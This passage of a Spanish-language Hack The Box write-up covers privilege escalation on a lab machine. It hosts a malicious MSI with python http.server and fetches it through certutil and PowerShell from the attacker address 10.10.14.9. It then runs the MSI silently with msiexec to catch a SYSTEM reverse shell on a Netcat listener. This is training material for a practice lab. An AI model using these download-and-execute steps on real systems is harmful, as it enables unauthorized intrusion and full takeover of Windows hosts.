<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/1c3de7f7-f24d-43b4-b0b1-21ef30cbffab">
</p>

<p align="justify">
  Alojamos este archivo y lo descargamos en la máquina de destino.
</p>

```go
python3 -m http.server 80
```

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/bc3904a0-128c-4b92-adbf-d315247a73e4">
</p>

```go
Descarga de archivo>
	certutil.exe -f -urlcache -split http://10.10.14.9/sh4dowcost.msi sh4dowcost_rs.msi
	powershell -command "Invoke-WebRequest -Uri 'http://10.10.14.9/sh4dowcost.msi' -OutFile sh4dowcost_rs.msi"
```

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/984a4d7c-4184-494c-8fe7-7830da2d008c">
</p>

<p align="justify">
  Ahora he configurado un oyente de Netcat y procedí a ejecutar el archivo MSI.
</p>

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/b27d4a53-9594-4f0c-b4b2-977935c82a42">
</p>

```go
C:> msiexec /quiet /qn /i C:\Windows\Temp\PrivEsc\sh4dowcost_rs.msi
```

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/56517279-14d3-4829-9528-93f1f0472581">
</p>

<p align="justify">
  Ahora tenemos acceso como usuario NT AUTHORITY\SYSTEM, lo que nos permite entrar en el directorio del 'Administrador' y obtener la flag de ROOT.
</p>

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/71a898fd-3eb0-446c-bc41-2f85b025acf8">
</p>

>**LOVE - PWNED!**
